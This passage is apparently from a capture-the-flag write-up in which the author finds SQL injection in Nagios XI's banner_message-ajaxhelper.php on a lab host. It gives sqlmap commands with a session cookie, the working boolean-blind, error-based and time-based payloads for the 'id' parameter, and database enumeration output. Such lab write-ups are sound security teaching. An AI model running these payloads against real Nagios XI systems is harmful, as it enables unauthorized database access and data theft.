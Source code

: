#### SQLI POC

I’ll try to build the same request described here. I always try to remove unnecessary headers, leaving this request:

![image-20240508194342678](/img/image-20240508194342678.png)

That seems to be working. I’ll try an SQL injection:

![image-20240508194415753](/img/image-20240508194415753.png)

#### sqlmap

Typically I like to show manually doing the injection, but the database here is large, so I’ll go right to `sqlmap`. For some reason this was a bit tricky to get working with `sqlmap`. What eventually works for me is building the command based on the advisory:

```

oxdf@hacky$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=bspu3ilq508jivkicfqofjo29g" --batch --threads 10
 ...[snip]...
 POST parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 260 HTTP(s) requests:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id=(SELECT (CASE WHEN (8029=8029) THEN 3 ELSE (SELECT 2283 UNION SELECT 1083) END))&action=acknowledge_banner_message

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=3 OR (SELECT 7131 FROM(SELECT COUNT(*),CONCAT(0x7171787071,(SELECT (ELT(7131=7131,1))),0x7162766271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&action=acknowledge_banner_message

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=3 AND (SELECT 4440 FROM (SELECT(SLEEP(5)))LDBp)&action=acknowledge_banner_message
---
...[snip]...

```

#### Database Enumeration

From here I can enumerate the database. There are two DBs:

```

oxdf@hacky$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=bspu3ilq508jivkicfqofjo29g" --batch --threads 10 --dbs
...[snip]...
available databases [2]:
[*] information_schema
[*] nagiosxi
...[snip]...

```

